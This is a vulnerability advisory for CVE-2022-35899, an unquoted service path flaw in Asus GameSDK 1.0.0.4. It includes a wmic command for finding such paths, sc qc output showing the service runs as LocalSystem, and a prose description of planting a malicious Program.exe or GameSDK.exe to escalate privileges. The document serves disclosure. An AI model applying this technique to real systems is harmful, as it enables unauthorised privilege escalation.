 # CVE-2022-35899
Unquoted Service Path Asus GameSdk

# Exploit Title: Asus GameSDK v1.0.0.4 - 'GameSDK.exe' Unquoted Service Path (Privilege Escalation)
# Date: 07/14/2022
# Exploit Author: Angelo Pio Amirante
# Version: 1.0.0.4
# Tested on: Windows 10
# Patched version: 1.0.5.0

# Step to discover the unquoted service path:
```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

# Info on the service:

```
C:\>sc qc "GameSDK Service"

[SC] QueryServiceConfig OPERAZIONI RIUSCITE

NOME_SERVIZIO: GameSDK Service
        TIPO                      : 10  WIN32_OWN_PROCESS
        TIPO_AVVIO                : 2   AUTO_START
        CONTROLLO_ERRORE          : 1   NORMAL
        NOME_PERCORSO_BINARIO     : C:\Program Files (x86)\ASUS\GameSDK Service\GameSDK.exe
        GRUPPO_ORDINE_CARICAMENTO :
        TAG                       : 0
        NOME_VISUALIZZATO         : GameSDK Service
        DIPENDENZE                :
        SERVICE_START_NAME : LocalSystem

```

# Exploit
If an attacker had already compromised the system and the current user has the privileges to write in the "C:\Program Files (x86)\ASUS\" folder or in "C:\" , he could place his own "Program.exe" or "GameSDK.exe" files respectively, and when the service starts, it would launch the malicious file, rather than the original "GameSDK.exe".

# Impact
An attacker can elevate his privileges on the system.



